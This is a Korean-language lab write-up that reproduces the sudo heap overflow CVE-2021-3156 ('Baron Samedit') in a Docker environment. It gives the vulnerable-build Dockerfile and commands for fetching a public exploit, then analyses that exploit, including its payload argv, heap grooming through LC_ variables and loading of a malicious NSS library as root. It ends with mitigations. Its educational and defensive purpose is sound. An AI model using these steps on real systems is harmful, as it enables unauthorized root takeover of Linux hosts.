# CVE-2021-3156

## 1. 취약점 요약

---

CVE-2021-3156 ("Baron Samedit")은 리눅스 sudo/sudoedit의 힙 기반 버퍼 오버플로우 취약점이다. 2021년 1월 Qualys가 공개했으며, sudo가 명령행 인자의 백슬래시 이스케이프를 처리하는 set_cmnd()로 인해 발생한다.

`sudoedit -s` 로 셸 모드 진입 시, 백슬래시 하나로 끝나는 인자를 넘기면 이스케이프 해제 루프가 문자열의 NUL 종료 바이트를 건너뛰어 힙 버퍼(`user_args`) 경계 밖으로 데이터를 계속 쓰게 된다. 이 오버플로우로 인접한 힙 객체를 덮어쓰면, root 권한으로 실행되는 sudo가 공격자가 심어둔 악성 공유 라이브러리를 로드하도록 유도해 root 권한 획득으로 이어진다.

| CVE ID | CVE-2021-3156  |
| --- | --- |
| 취약 컴포넌트 | sudo / sudoedit (sudoers 플러그인) |
| 취약 유형 | Heap-based Buffer Overflow (CWE-122) → LPE |
| 취약 버전 | sudo 1.8.2 ~ 1.8.31p2, 1.9.0 ~ 1.9.5p1 |
| 본 환경 버전 | 1.8.31p2  |
| 패치 버전 | 1.9.5p2 이상 |
| CVSS 3.1 | 7.8 (High) → AV:L / AC:L / PR:L / UI:N / S:U / C:H / I:H / A:H |
| 영향 | 로컬 낮은 권한 사용자(sudoers 미등록 사용자 포함)가 root 획득 |

이 버그는 sudo 정책(sudoers) 판정 이전 단계에서 발생하기 때문에, sudo 실행 권한이 전혀 없는 일반 사용자도 악용할 수 있다. 제한된 계정 하나만 있으면 시스템 전체를 장악할 수 있어서 위험하다. 

## 2. 환경 구성 및 실행 결과

---

```bash
mkdir -p cve-2021-3156/{src,poc,exploit,scripts,img}
cd cve-2021-3156
curl -fSL https://codeload.github.com/sudo-project/sudo/tar.gz/refs/tags/SUDO_1_8_31p2 -o src/sudo-1.8.31p2.tar.gz
sha256sum src/sudo-1.8.31p2.tar.gz > src/sudo-1.8.31p2.tar.gz.sha256
```



sha랑 같이 저장한 이유는 Dockerfile 빌드 중에 소스 오류가 나지 않도록 하기 위함이다. 

그리고 익스플로잇도 가져온다. [https://github.com/worawit/CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)

```bash
curl -fSL https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py \
  -o exploit/exploit_nss.py
```

그리고 CVE-2021-3156 취약점 트리거를 위한 PoC를 작성하여 돌려보겠다. 



sudoedit -s로 호출하면 셸 모드이기 때문에 인자 이스케이프가 해제되지 않은 상태로 set_cmnd()에 전달된다. 마지막 인자가 “\” 하나로 끝나면 복사로직이 NUL을 건너뛰고 힙 밖에서 계속 루프를 돈다. 즉 힙 오버플로우가 발생한다. 



또한 grep을 이용하여 코드를 블랙박스로 돌리기 보단, 이 스크립트가 뭘 보고 어떤 조건을 가지는 지 확인한 다음 Dockerfile을 작성해야 하는 게 좋다고 한다. 

- SUDO_PATH = b"/usr/bin/sudo”
    
    
    
    Dockerfile 설치 경로를 결정 → sudo를 정확히 저 경로에 둬야한다. (하드코딩) 
    
- nscd(Name Service Cache Daemon) is not running → 익스 동작 가능
- assert service_user_idx < 9 → nsswitch.conf 관련 조건

이를 바탕으로 Dockerfile을 작성하면 아래와 같다. 

```docker
FROM ubuntu:20.04
ENV DEBIAN_FRONTEND=noninteractive

RUN apt-get update && apt-get install -y --no-install-recommends \
    build-essential ca-certificates python3 iproute2 file libpam0g-dev && \
    rm -rf /var/lib/apt/lists/*

COPY src/sudo-1.8.31p2.tar.gz /tmp/sudo-1.8.31p2.tar.gz
COPY src/sudo-1.8.31p2.tar.gz.sha256 /tmp/sudo-1.8.31p2.tar.gz.sha256

RUN cd /tmp && sha256sum -c sudo-1.8.31p2.tar.gz.sha256 && \
    mkdir -p /tmp/build && \
    tar xzf sudo-1.8.31p2.tar.gz -C /tmp/build --strip-components=1 && \
    cd /tmp/build && \
    ./configure --prefix=/usr --sysconfdir=/etc --with-pam && \
    make -j"$(nproc)" && make install && \
    cd /tmp && rm -rf /tmp/build /tmp/sudo-1.8.31p2.tar.gz

RUN test -u /usr/bin/sudo && \
    /usr/bin/sudo --version | grep -q "1.8.31p2" && \
    echo "[+] vulnerable sudo 1.8.31p2 installed (setuid root, PAM)"

RUN printf '%s\n' \
    'auth     required  pam_unix.so nullok' \
    'account  required  pam_unix.so' \
    'session  required  pam_unix.so' > /etc/pam.d/sudo

RUN printf '%s\n' \
    'Defaults        env_reset' \
    'root    ALL=(ALL:ALL) ALL' \
    '%sudo   ALL=(ALL:ALL) ALL' > /etc/sudoers && \
    chmod 0440 /etc/sudoers && chown root:root /etc/sudoers

RUN printf '%s\n' \
    'passwd:  files' 'group:   files' 'shadow:  files' \
    'hosts:   files dns' 'networks: files' 'protocols: files' \
    'services: files' 'ethers:  files' 'rpc:     files' > /etc/nsswitch.conf

RUN useradd -m -s /bin/bash hacker

COPY poc/trigger.sh /home/hacker/trigger.sh
COPY exploit/exploit_nss.py /home/hacker/exploit_nss.py
RUN chmod 0755 /home/hacker/trigger.sh /home/hacker/exploit_nss.py && \
    chown hacker:hacker /home/hacker/trigger.sh /home/hacker/exploit_nss.py

WORKDIR /home/hacker
CMD ["sleep", "infinity"]

```

- `--prefix=/usr --sysconfdir=/etc` → sudo 설치 경로
- `--with-pam` 
→ PAM(Pluggable Authentication Modules)은 리눅스에서 인증을 처리하는 방식을 표준화한 프레임워크이다. 이 옵션은 sudo가 인증을 시스템 PAM스택에 위임하는 것이다. 우분투의 apt install sudo로 배포하는 방식과 비슷하다고 보면 된다. 
→ 힙 레이아웃에 영향을 준다. PAM 사용 여부에 따라 초기 라이브러리 로딩과 메모리 할당이 달라져 힙 레이아웃에 영향을 줄 수 있으며, PAM 없이 빌드한 경우 익스플로잇이 실패했지만 PAM을 적용한 빌드에서는 정상적으로 재현되었다.
- `nsswitch.conf` → 고정

docker-compose.yml은 아래와 같다. 

```yaml
services:
  sudo-baron-samedit:
    build: .
    image: kr-vulhub/cve-2021-3156:1.8.31p2
    container_name: cve-2021-3156-sudo
    command: ["sleep", "infinity"]
    tty: true
    stdin_open: true
```

이제 도커를 빌드하고 취약점이 트리거 되는지 확인하자. 





trigger.sh로 취약점을 확인하고,



권한 상승도 된 것을 확인할 수 있다. 

실행결과를 표로 정리하면 아래와 같다. 

| 빌드 | docker compose build | [+] vulnerable sudo 1.8.31p2 installed (setuid root, PAM) |
| --- | --- | --- |
| PoC | trigger.sh | Segmentation fault, exit code 139 (=128+SIGSEGV) |
| LP | exploit_nss.py | uid=0(root) gid=0(root) groups=0(root),1000(hacker) |

groups에 1000(hacker)가 남아있는 것은 원래 저권한 사용자였다는 의미이다. (LPE 증거)

## 3. 재현 절차 정리

---

전제: docker + docker compose v2 

```bash
# 0) 취약 소스/익스플로잇 확보
mkdir -p cve-2021-3156/{src,poc,exploit,scripts,img}
cd cve-2021-3156
curl -fSL https://codeload.github.com/sudo-project/sudo/tar.gz/refs/tags/SUDO_1_8_31p2 -o src/sudo-1.8.31p2.tar.gz
( cd src && sha256sum sudo-1.8.31p2.tar.gz > sudo-1.8.31p2.tar.gz.sha256 )
curl -fSL https://raw.githubusercontent.com/worawit/CVE-2021-3156/main/exploit_nss.py -o exploit/exploit_nss.py

# 1. 이미지
docker compose build

# 2. 컨테이너 
docker compose up -d

# 4. PoC코드로 세그폴 확인 
docker compose exec -u hacker sudo-baron-samedit bash /home/hacker/trigger.sh

# 5. LPE (id입력)
docker compose exec -u hacker sudo-baron-samedit python3 /home/hacker/exploit_nss.py

# 6. 정리
docker compose down
```

## 4. 취약 조건

---

본 환경(Dockerfile)은 아래 조건들을 구성한다. 

1. setuid sudo 
    1. 취약 버전인 1.8.31p2 를 빌드해서 /usr/bin/sudo에 setuid root(권한 4755)로 설치
2. 셸 모드인 `sudoedit -s` 로 set_cmnd()의 이스케이프 해제 루프에 진입. sudoers 플러그인이 로드되도록 /etc/sudoers 
3. 공격자 계정 hacker는 sudoers에 미등록(-sudoer가 아니라도 악용 가능해야함)
4. 익스플로잇 추가 조건 (위 언급 내용 요약)
    - glibc 2.31 (glibc tcache 사용)
    - nscd 미실행
    - `/etc/nsswitch.conf`의 group 항목 인덱스 < 9 → 고정
    - -with-pam으로 힙 레이아웃 일치

## 5. exploit_nss.py 분석

---

힙 배치를 바꿔서 struct service_user를 덮어써서 root 실행이 되도록 하는 익스플로잇이다. 

### 1. assert - 사전 조건



검증 5개 중 하나라도 실패하면 중단된다. 

- check_is_vuln()
    - 취약 버전인지 먼저 확인 (`sudoedit -s -A`)
- check_libc_version / check_libc_tcache()
    - glibc tcache 여부 확인 → malloc/free를 호출해서 tcache 캐싱을 관찰
- check_nscd_condition()
    - nscd가 그룹 캐시를 돌고 있으면 익스가 안 되므로 이를 체크
- get_service_user_idx()
    - /etc/nsswitch.conf를 파싱해서 group항목의 인덱스를 구한다. 이 값은 힙에서 struct service_user가 어디에 배치될 지 계산할 때 쓰인다.

이 4가지 조건은 Dockerfile에서 충족시키도록 작성하였다. 

### 2. create_libx



이건 zlib으로 압축된 .so를 디코딩해서 저장하는 함수이다. 나중에 root sudo가 이 파일을 진짜 NSS 모듈로 알고 dlopen()하여서 즉시 코드가 실행되도록 한다. 

### 3. lc_env()





sudo는 LC_ 로 되어 있는 Locale 환경변수를 보면서 문자열을 malloc한다. 

lc_env()는 원하는 크기의 Heap Chunk를 할당시켜준다. 
공격자는 “몇 바이트짜리 청크를 몇개, 이러한 순서대로 만들어라” 라고 하는 게 가능하다. 

그래서 실제 힙 익스에서 오버플로우 취약점 한 개 말고도, 주변의 힙 레이아웃을 정렬해놓는 작업이 필요하다. (chunk spray)

### 4. 오버플로우 페이로드



```python
FAKE_USER_SERVICE_PART = [ b"\\" ] * 0x18 + [ b"X/X1234\\" ]
CHUNK_CMND_SIZE = 0xf0
argv = [ b"sudoedit", b"-A", b"-s", b"A"*(CHUNK_CMND_SIZE-0x10)+b"\\", None ]
```

이 부분은 `sudoedit -s` 인자 처리 취약점을 이용하기 위해 명령행 인자와 환경변수를 좀 정교하게 구성해주는 부분이다. 

argv[3]은 “\”로 끝나는 문자열이고, sudo의 unescape 처리 오류를 유발하는 트리거 역할을 한다. 
`CHUNK_CMND_SIZE` 는 해당 문자열이 glibc malloc에서 어떤 특정 크기의 힙 청크로 할당되게 맞춘 값이다. 

env에는 이후에 패딩과 service_user 구조체의 가짜 데이터를 넣어둔다. 오버플로우가 발생하면 user_args 버퍼를 넘겨서 env에 있던 데이터가 인접한 힙 객체를 덮게 되고, 이를 통해 NSS 라이브러리 로딩 과정에 영향을 준다. 이것이 이 페이로드의 목적이다. 

즉 trigger.sh은 65536바이트로 크래시가 확실하게 나게 설계했는데, exploit code는 반대로 정확히 해당 자리에 도달하도록 한 것이다. 

### 5. get_extra_chunk_count()

```python
extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])
```

sudo 안에서 `groups=`, `host=`, `network_addrs=` 같은 문자열이 0xf0 크기의 힙 청크를 몇개를 추가로 소비할 지 미리 계산해서 보정값을 만든다.

이 함수의 결과 덕분에 `docker compose exec -u hacker sudo-baron-samedit python3 /home/hacker/exploit_nss.py`
로 실행했을 때, 인자 없이 실행해도 익스플로잇이 힙 청크 개수를 자동으로 계산하게 된 것이다. 

그럼 이렇게 자동으로 계산하는 게 왜 필요할까? 

컨테이너의 네트워크 인터페이스 개수나 hostname 길이 같은 요인들이 환경에 따라 힙 레이아웃에 영향을 줄 수 있기 때문이다. 이 함수가 없이 고정값을 썼다면 어떤 환경에서는 익스가 안 될 수도 있다.

### 6. execve(SUDO_PATH, argv, env)

ctypes로 libc.execve()를 직접 호출한다. subprocess.run() 같이 파이썬 API대신에 execve()로 호출하는 이유는 argv, env 바이트 배열을 글자 단위로 잡아야 하기 때문이다. (표준 API는 인코딩이나 정규화 과정에서 페이로드가 살짝 변형될 위험이 있다고 한다)

## 6. 대응 방안

---

1. 근본적으로 패치 버전 업그레이드 권장 (sudo를 1.9.5p2 이상으로)
2. 로컬 접근이 전제 조건이기 때문에 신뢰되지 않은 사용자의 로컬 셸 접근을 차단한다. (setuid 비트 제거는 sudo 기능 자체를 무력화하므로 적절한 대응 방안이 아니다)
3. auditd/EDR로 `sudoedit -s` 의 비정상 인자(트레일링 백슬래시, 비정상적으로 긴 인자)와 sudo/sudoedit의 잦은 `SIGSEGV`를 모니터링한다. 
4. sudo 프로세스가 현재 작업 디렉토리에서 `libnss_*.so`를 로드하는 패턴을 탐지한다.